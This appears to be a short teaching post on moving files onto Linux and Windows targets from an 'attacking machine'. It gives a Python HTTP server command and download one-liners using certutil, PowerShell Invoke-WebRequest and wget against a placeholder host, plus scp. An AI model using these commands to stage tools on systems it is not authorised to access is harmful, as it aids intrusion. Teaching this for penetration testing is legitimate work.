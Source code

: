 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
#date: 2023-02-13
#location: "City, Country"
---
```


File transfer between Linux and Windows

# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
## Using Python
```bash
python3 -m http.server PORT_NUMBER
```


Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```



There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
```cmd
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```